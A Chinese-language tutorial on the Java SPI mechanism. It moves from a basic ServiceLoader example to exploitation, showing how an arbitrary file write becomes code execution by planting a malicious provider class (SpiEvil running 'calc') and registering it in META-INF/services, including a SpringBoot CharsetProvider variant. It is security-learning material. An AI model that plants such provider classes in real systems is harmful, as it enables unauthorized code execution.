 # Java-SPI学习

## 介绍

SPI全称Service Provider Interface，是Java提供的一套用来被第三方实现或者扩展的接口，它可以用来启用框架扩展和替换组件。 SPI的作用就是为这些被扩展的API寻找服务实现。

-   API （`Application Programming Interface）在`大多数情况下，都是`实现方`制定接口并完成对接口的实现，`调用方`仅仅依赖接口调用，且无权选择不同实现。 从使用人员上来说，API 直接被应用开发人员使用。

-   SPI （`Service Provider Interface）`是`调用方`来制定接口规范，提供给外部来实现，`调用方在调用时则`选择自己需要的外部实现。 从使用人员上来说，SPI 被框架扩展人员使用。



## 简单实现

编写1个接口和2个实现（**需要注意SPI机制的实现类必须有一个无参构造方法**，下面调试的时候会知道为什么）：

```java
package com.summer.SPI;

public interface SpiService {
    public void say();
}

```

```java
package com.summer.SPI;

public class SpiServiceA implements SpiService{

    @Override
    public void say() {
        System.out.println("SpiServiceA say");
    }
}

```

```java
package com.summer.SPI;

public class SpiServiceB implements SpiService{
    @Override
    public void say() {
        System.out.println("SpiServiceB say");
    }
}

```

在classpath下面创建目录`META-INF/services/`，在下面创建文件名是上述接口全限定名的文件，在此文件中写入此接口的实现类的全限定名：

![image-20220310162650056](Java-SPI学习.assets/image-20220310162650056.png)

再运行程序（Java的foreach底层实际还是上面Iterator方式的调用，所以直接用迭代器方式也方便断点调试）：

```java
        ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
        Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.say();
        }
/*        for (SpiService spiService:serviceLoader){
            spiService.say();
        }*/
```

得到结果：

```
SpiServiceA say
SpiServiceB say
```

## 调试

打断点看一下，`next()`方法：

![image-20220310163321821](Java-SPI学习.assets/image-20220310163321821.png)

实际调用到了`nextService()`方法，通过反射的方式对`com.summer.SPI.SpiService`写的实现类调用无参构造：

```java
        private S nextService() {
            if (!hasNextService())
                throw new NoSuchElementException();
            String cn = nextName;
            nextName = null;
            Class<?> c = null;
            try {
                c = Class.forName(cn, false, loader);
            } catch (ClassNotFoundException x) {
                fail(service,
                     "Provider " + cn + " not found");
            }
            if (!service.isAssignableFrom(c)) {
                fail(service,
                     "Provider " + cn  + " not a subtype");
            }
            try {
                S p = service.cast(c.newInstance());
                providers.put(cn, p);
                return p;
```

## 写文件rce

其实就是利用SPI机制来写文件rce（如果存在任意写的话）

首先写一个恶意类：

```java
package com.summer.SPI;
import java.io.IOException;

public class SpiEvil implements SpiService {

    @Override
    public void say(){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

编译成class之后利用任意写，写到classpath下面。

然后再利用任意写把`META-INF/services/com.summer.SPI.SpiService`给改了：

```
com.summer.SPI.SpiEvil
```

再去触发功能点就可以实现rce：

![image-20220310164255455](Java-SPI学习.assets/image-20220310164255455.png)



## 利用：SpringBoot任意写的rce

学习threedr3am师傅的文章，首先写恶意类：

```java
package com.example.springboot;

import java.io.IOException;
import java.nio.charset.Charset;
import java.nio.charset.spi.CharsetProvider;
import java.util.HashSet;
import java.util.Iterator;

public class SpiEvil extends CharsetProvider {
    @Override
    public Iterator<Charset> charsets() {
        return new HashSet<Charset>().iterator();
    }

    @Override
    public Charset charsetForName(String charsetName) {
        //因为Charset会被缓存，导致同样的charsetName只能执行一次，所以，我们可以利用前缀触发，后面的内容不断变化就行了，甚至可以把命令通过charsetName传入
        if (charsetName.startsWith("feng")){
            try {
                Process calc = Runtime.getRuntime().exec("calc");
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        return Charset.forName("UTF-8");
    }
}

```

编译后利用任意写，写入classpath，然后在classpath下面写`target/classes/META-INF/Services/java.nio.charset.spi.CharsetProvider`，里面是恶意类的全名：

```
com.example.springboot.SpiEvil
```

触发：

![image-20220310171241299](Java-SPI学习.assets/image-20220310171241299.png)











